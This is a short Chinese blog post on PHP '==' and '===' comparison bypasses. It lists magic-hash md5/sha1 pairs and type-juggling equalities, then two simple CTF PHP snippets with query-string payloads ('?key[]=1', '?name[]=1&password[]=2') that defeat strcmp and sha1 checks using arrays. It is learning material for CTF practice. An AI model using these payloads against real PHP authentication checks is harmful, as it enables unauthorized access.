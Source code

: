 ﻿---
title: 关于php比较运算符
date: 2017-2-28
tags: php
---
# 比较运算符"=="与"==="的学习：

## 关于"=="的绕过：
0e开头的全部相等
栗子:
`md5('240610708') == md5('QNKCDZO')`
`md5('aabg7XSs') == md5('aabC9RqS')`
`sha1('aaroZmOk') == sha1('aaK1STfY')`
`sha1('aaO8zKZF') == sha1('aa3OFF9m')`
`'0010e2' == '1e3'`
`'0x1234Ab' == '1193131'`
`'0xABCdef' == '     0xABCdef'`
一道简单的CTF题目：
```php
<?php
$key = "llocdpocuzion5dcp2bindhspiccy";
$flag = strcmp($key, $_GET['key']);
if ($flag == 0) {
print "Welcome!";
} else {
print "Bad key!";
}
?>
```
payload:
`?key[]=1`

var_dump(strcmp( '', array())) => NULL ⇒ NULL == 0 ⇒ Get Flag！


## 关于“===”的绕过：
利用数组绕过

一道简单的CTF题目：
```php
if (isset($_GET['name']) and isset($_GET['password'])) {
	if ($_GET['name'] == $_GET['password'])
		print 'Your password can not be your name.';
	else if (sha1($_GET['name']) === sha1($_GET['password']))
		die('Flag: '.$flag);
```
payload:
`?name[]=1&password[]=2`

